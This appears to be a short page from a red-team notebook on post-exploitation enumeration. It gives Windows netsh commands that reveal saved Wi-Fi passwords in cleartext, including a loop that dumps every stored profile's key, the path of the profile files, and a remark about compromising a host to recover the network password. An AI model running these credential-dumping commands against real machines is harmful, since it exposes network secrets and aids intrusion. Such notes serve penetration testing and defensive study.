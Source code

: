 # Living off the Land

```
C:\> netsh.exe wlan show profile "<wifi_name>" key=clear

C:\> netsh.exe wlan export profile key=clear

C:\> for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh.exe wlan show profiles') do @echo %j | findstr.exe /i /v echo | netsh.exe wlan show profiles %j key=clear
```

> [!NOTE]
> Gaining access to the wireless AP can be as simple as cracking the WEP key or as complex as using ICMPTX, but wireless access can be broken. If all else fails, target one machine on the network, own it, and then recover the password.

Hex-encoded XML document with the wireless password.

```
C:\ProgramData\Microsoft\Wlansvc\Profiles\Interface\{Interface GUID}
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xE - Networking Configuration/Known Wi-Fi Networks|Enumeration and Discovery: Windows Wi-Fi Configuration]]